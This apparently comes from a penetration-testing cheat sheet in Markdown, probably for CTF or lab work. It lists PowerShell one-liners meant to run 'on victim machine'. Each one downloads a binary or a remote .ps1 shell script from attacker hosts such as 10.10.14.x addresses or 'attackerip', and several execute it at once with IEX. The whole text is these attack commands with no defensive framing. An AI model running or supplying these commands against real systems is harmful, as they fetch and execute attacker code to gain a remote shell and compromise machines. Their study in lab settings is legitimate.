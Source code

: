 ### Powershell
On victim machine:
```powershell
Powershell.exe invoke-webrequest -Uri http://10.10.14.28/bfill.exe -OutFile bfill.exe
```

**Download and execute ps1**

```powershell
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1') 
# or 
powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell.ps1')"

# or (Download and execute)
IEX(New-Object Net.WebClient).downloadString('http://attackerip:8000/date.txt');
```

